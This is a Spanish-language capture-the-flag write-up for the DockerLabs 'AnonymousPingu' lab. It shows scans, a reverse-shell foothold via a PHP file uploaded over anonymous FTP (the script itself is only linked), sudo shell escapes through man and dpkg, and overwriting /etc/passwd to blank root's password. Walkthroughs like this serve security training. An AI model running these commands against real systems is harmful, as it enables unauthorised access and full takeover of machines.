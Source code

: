 # anonymouspingu

Maquina "AnonymousPingu" de [DockerLabs](https://dockerlabs.es)

Autor: [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

Dificultad: Fácil

![dock](./images/anonymouspingu/img/dock.png)

## RECONOCIMIENTO

Comenzamos haciendo un escaneo de `nmap`:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 <ip> -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Mon Sep  9 23:17:04 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000016s latency).
Scanned at 2024-09-09 23:17:05 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0            7816 Nov 25  2019 about.html
| -rw-r--r--    1 0        0            8102 Nov 25  2019 contact.html
| drwxr-xr-x    1 0        0             118 Jan 01  1970 css
| drwxr-xr-x    1 0        0               0 Apr 28 18:28 heustonn-html
| drwxr-xr-x    1 0        0             574 Oct 23  2019 images
| -rw-r--r--    1 0        0           20162 Apr 28 18:32 index.html
| drwxr-xr-x    1 0        0              62 Oct 23  2019 js
| -rw-r--r--    1 0        0            9808 Nov 25  2019 service.html
|_drwxrwxrwx    1 33       33              0 Sep 10 02:07 upload [NSE: writeable]
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Mantenimiento
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep  9 23:17:13 2024 -- 1 IP address (1 host up) scanned in 9.18 seconds
```

Como vemos tenemos el puerto 80 abierto y el ftp, el cual tiene login anonimo y además parece que estamos dentro de la propia página, para confirmarlo podemos hacer uso de `gobuster` y ver que directorios o archivos tiene la máquina:

```css
 gobuster dir -u http://<ip> -w <wordlist> -x php,html,txt
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 20162]
/images               (Status: 301) [Size: 309] [--> http://172.17.0.2/images/]
/about.html           (Status: 200) [Size: 7816]
/contact.html         (Status: 200) [Size: 8102]
/upload               (Status: 301) [Size: 309] [--> http://172.17.0.2/upload/]
/service.html         (Status: 200) [Size: 9808]
/css                  (Status: 301) [Size: 306] [--> http://172.17.0.2/css/]
/js                   (Status: 301) [Size: 305] [--> http://172.17.0.2/js/]
Progress: 166877 / 882244 (18.92%)
===============================================================
Finished
===============================================================
```

Como podemos ver estamos en la propia página, por lo que teniendo en cuenta que la carpeta `upload` es accesible desde el navegador y que podemos escribir en ella con ftp, tenemos que subir a traves de ftp un php malicioso que nos permita ejecutar comandos dentro de la máquina.

## INTRUSION

Para esto podemos usar el script que hice para esta máquina:

[Script](./images/anonymouspingu/scripts/intrusion.sh)

Una vez descargado, le damos permisos con `chmod +x intrusion.sh`, luego escuchamos con netcat en el puerto 9090:

```css
nc -nlvp 9090
```

ahora solo ejecutamos el script y ya habremos ganado acceso como www-data.

## ESCALADA DE PRIVILEGIOS

#### www-data

Ahora que estamos dentro, haremos el tratamiento de la tty:

```css
script /dev/null -c bash # Lo ejecutamos y presionamos ctrl+Z
stty raw -echo;fg # Ejecutamos y le damos al enter, luego escribimos "reset xterm" y enter
export TERM=xterm && export SHELL=bash
```

Ahora si ejecutamos un `sudo -l` veremos que podemos ejecutar el binario man como "pingu". Ahora ejecutaremos `sudo -u pingu man find` y se nos abrirá un menú, una vez en el menú ponemos `!/bin/bash` y ya pivotaremos a pingu

### Pingu

Si ejecutamos `sudo -l` veremos que se puede ejecutar dpkg como gladys, por lo que ejecutaremos `sudo -u gladys dpkg -l` y en el menú nuevamente `!/bin/bash`.

#### Gladys

Ahora, podemos ejecutar chown como gladys, por lo que podemos modificar el passwd eliminando la "x" del usuario root para poder cambiar de usuario sin contraseña, para hacerlo tenemos que ejecutar lo siguientes dos comandos:

```css
sudo chown gladys:gladys /etc/
sudo chown gladys:gladys /etc/passwd
```

Ahora como no tenemos nano, haremos algo a lo bruto, que seria dejar el passwd solo con las cosas de root pero sin la "x", y una vez escalamos instalamos nano y ponemos el passwd como antes. Para hacerlo usaremos `echo`:

```css
echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd
```

una vez hecho esto ejecutamos `su` y ya seremos root, pero para que no quede todo corrupto, instalamos nano con `apt install nano`, y luego editamos el `/etc/passwd` pegando esto:

```css
root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:996:996:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
ftp:x:101:103:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
systemd-resolve:x:995:995:systemd Resolver:/:/usr/sbin/nologin
pingu:x:1001:1001::/home/pingu:/bin/bash
gladys:x:1002:1002::/home/gladys:/bin/bash
```

y ahora seremos root sin problemas con los demás usuarios:

![root](./images/anonymouspingu/img/root.png)

Gracias por leer.
